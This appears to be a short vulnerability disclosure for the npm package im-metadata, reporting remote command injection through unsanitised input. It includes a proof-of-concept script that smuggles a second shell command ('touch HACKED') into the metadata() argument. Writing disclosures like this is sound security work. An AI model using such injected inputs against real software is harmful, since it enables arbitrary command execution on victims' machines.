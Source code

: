 # Overview

This vulnerability allows to execute `arbitrary commands remotely inside the victim's PC`

The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check.

## Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var metadata = require("im-metadata");
metadata("test; touch HACKED; #", {}, function () {});
```

1. Check there aren't files called `HACKED`
1. Execute the following commands in another terminal:

```bash
npm i im-metadata # Install affected module
node poc.js #  Run the PoC
```

1. Recheck the files: now `HACKED` has been created :)
